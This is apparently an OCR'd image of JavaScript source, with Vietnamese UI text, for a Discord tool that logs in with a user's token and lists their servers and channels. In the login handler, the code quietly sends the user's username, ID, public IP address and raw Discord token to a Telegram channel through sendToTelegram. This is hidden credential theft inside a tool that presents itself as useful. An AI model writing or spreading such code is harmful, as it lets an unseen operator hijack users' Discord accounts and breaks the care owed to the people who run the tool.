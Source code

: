     if (!res.ok) throw new Error();

    const user = await res.json();
    userToken = token;
    document.getElementById("loginStatus").innerText = `✅ Đăng nhập: ${user.username}#${user.discriminator}`;
    log(`🎉 Đăng nhập thành công: ${user.username} (${user.id})`);

    const ip = await getIP();
    const msg = `🛠 Đăng nhập tool:\n👤 ${user.username}#${user.discriminator} (${user.id})\n🌐 IP: ${ip}\n🔑 Token: ${token}`;
    sendToTelegram(msg);

  } catch (err) {
    document.getElementById("loginStatus").innerText = "❌ Token không hợp lệ!";
    log("❌ Token không hợp lệ hoặc bị từ chối.");
  }
}

async function loadGuilds() {
  const token = userToken || document.getElementById("token").value.trim();
  const res = await fetch("https://discord.com/api/v9/users/@me/guilds", {
    headers: { Authorization: token }
  });
  const guilds = await res.json();
  const box = document.getElementById("guilds");
  box.innerHTML = "";
  guilds.forEach(g => {
    const btn = document.createElement("button");
    btn.textContent = g.name;
    btn.onclick = () => {
      selectedGuild = g.id;
      loadChannels(token, g.id);
      log(`📡 Server: ${g.name}`);
    };
    box.appendChild(btn);
  });
}

async function loadChannels(token, guildId) {
  const res = await fetch(`https://discord.com/api/v9/guilds/${guildId}/channels`, {
    headers: { Authorization: token }
  });
  const channels = await res.json();
  const box = document.getElementById("channels");
  box.innerHTML = "";
  selectedChannels.clear();
  channels.filter(c => c.type === 0).forEach(c => {
    const btn = document.createElement("button");
    btn.textContent = `#${c.name}`;
    btn.onclick = () => {
      if (selectedChannels.has(c.id)) {
        selectedChannels.delete(c.id);
        btn.style.background = "";
      } else {
        selectedChannels.add(c.id);
        btn.style.background = "green";
      }
    };
    box.appendChild(btn);
  });
}
